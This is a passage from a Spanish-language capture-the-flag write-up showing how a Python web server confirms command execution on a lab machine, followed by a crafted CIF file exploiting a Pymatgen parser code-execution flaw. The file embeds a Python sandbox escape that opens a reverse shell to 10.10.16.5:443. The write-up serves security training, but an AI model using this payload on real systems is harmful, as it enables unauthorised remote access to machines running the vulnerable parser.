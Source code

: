 Antes de visualizar el contenido del archivo malicioso, nos levantaremos un servidor web con Python.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Procederemos a visualizar el archivo malicioso subido para revisar si se ejecuta el comando arbitrario.

<figure><img src="../../.gitbook/assets/imagen (156).png" alt=""><figcaption></figcaption></figure>

En nuestro servidor web, verificamos que se ha recibido una solicitud `GET` desde el equipo víctima. Esto nos acaba confirmando de que podemos lograr ejecutar comandos remotos en la máquina víctima.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.38 - - [15/Jan/2025 03:42:43] code 404, message File not found
10.10.11.38 - - [15/Jan/2025 03:42:43] "GET /test HTTP/1.1" 404 -
```

Sabiendo esto, nuestro objetivo será intentar ganar acceso a través de una Reverse Shell al equipo víctima.

```bash
❯ cat test.cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.16.5/443 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
